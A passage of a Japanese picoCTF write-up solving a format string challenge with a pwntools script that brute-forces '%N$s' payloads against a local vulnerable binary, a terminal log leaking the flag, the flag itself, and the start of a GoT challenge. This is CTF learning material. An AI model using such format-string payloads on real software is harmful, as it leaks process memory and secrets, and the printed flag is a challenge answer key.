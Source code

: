 <br />
### Solution
書式文字列攻撃の問題です。

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context.log_level = 'critical'

for i in range(1,100):
    try:
        s = process('./vuln')
        print i,
        s.recvuntil('back:\n\n')
        s.sendline('%' +str(i)+ '$s')
        response = s.recv()
        print response
        if ( 'picoCTF' in response ):
            print "Found!!!"
            exit()
        s.close()
        sleep(1)
    except:
        print error
        sleep(1)        
```

<br />
37番目に出てくるので、%37$s 入れるだけでもフラグは取れます。

<pre>
$ ./vuln 
input whatever string you want; then it will be printed back:

%37$s
Now 
your input 
will be printed:

picoCTF{str1nG_CH3353_159c98a8}
</pre>

Flag: `picoCTF{str1nG_CH3353_159c98a8}`




<br /><br />
<br /><br />
## [Binary Exploitation]: GoT (350 points)
- - -
### Challenge
> You can only change one address, here is the problem: program.
<br /><br />
